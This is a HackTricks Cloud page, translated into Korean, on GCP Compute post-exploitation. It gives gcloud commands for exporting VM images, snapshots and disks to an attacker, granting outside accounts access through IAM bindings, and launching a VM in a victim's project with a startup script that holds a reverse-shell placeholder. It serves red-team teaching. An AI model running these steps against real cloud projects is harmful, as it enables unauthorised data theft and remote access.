 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Compute 및 VPC(네트워킹)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 이미지를 로컬로 내보내고 검사하기

이것은 공격자가 **이미 존재하는 이미지에 포함된 데이터에 접근**하거나 **실행 중인 VM의 새로운 이미지를 생성**하고 실행 중인 VM에 접근하지 않고도 해당 데이터에 접근할 수 있게 합니다.

VM 이미지를 버킷으로 내보낸 다음 다운로드하고 다음 명령으로 로컬에 마운트할 수 있습니다:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

이 작업을 수행하기 위해 공격자는 스토리지 버킷에 대한 권한과 **cloudbuild에 대한 권한**이 필요할 수 있습니다. 이는 **서비스**가 내보내기를 수행하도록 요청받을 것이기 때문입니다.\
또한, 이를 위해 codebuild SA와 compute SA는 권한이 필요합니다.\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com`는 다음이 필요합니다:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

그리고 SA `<project-id>-compute@developer.gserviceaccount.com`는 다음이 필요합니다:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 스냅샷 및 디스크를 로컬로 내보내고 검사하기

스냅샷과 디스크를 직접 내보내는 것은 불가능하지만, **스냅샷을 디스크로, 디스크를 이미지로 변환**하고 **이전 섹션**에 따라 해당 이미지를 내보내어 로컬에서 검사하는 것은 가능합니다.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### VM 생성 시 이미지 검사

**이미지에 저장된 데이터** 또는 **공격자가 이미지를 생성한** **실행 중인 VM** 내부에 접근하는 것을 목표로 하여, 외부 계정에 이미지에 대한 접근 권한을 부여하는 것이 가능합니다:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
그리고 나서 그것으로부터 새로운 VM을 생성합니다:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
만약 이미지에 대한 외부 계정 접근을 제공할 수 없다면, 피해자의 프로젝트에서 해당 이미지를 사용하여 VM을 시작하고 **메타데이터가 리버스 셸을 실행하도록 만들 수 있습니다**. 파라미터를 추가하여 이미지를 접근할 수 있습니다:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

**디스크나 스냅샷에 저장된 데이터에 접근하기 위해, 스냅샷을 디스크로 변환하고, 디스크를 이미지로 변환한 후 이전 단계를 따를 수 있습니다.**

또는 **외부 계정에 디스크에 대한 접근 권한을 부여할 수 있습니다** (시작점이 스냅샷인 경우 스냅샷에 대한 접근 권한을 부여하거나 그로부터 디스크를 생성합니다):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**인스턴스에 디스크를 연결**:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM 내부에 디스크를 마운트합니다:

1.  **VM에 SSH 접속**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **디스크 식별**: VM 내부에 들어가면 디스크 장치를 나열하여 새 디스크를 식별합니다. 일반적으로 `/dev/sdb`, `/dev/sdc` 등으로 찾을 수 있습니다.
3. **디스크 포맷 및 마운트** (새 디스크 또는 원시 디스크인 경우):
*   마운트 포인트 생성:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   디스크 마운트:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

**외부 프로젝트에 스냅샷 또는 디스크에 대한 액세스를 제공할 수 없는 경우**, **스냅샷/디스크와 동일한 프로젝트의 인스턴스 내에서 이러한 작업을 수행해야 할 수 있습니다**.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
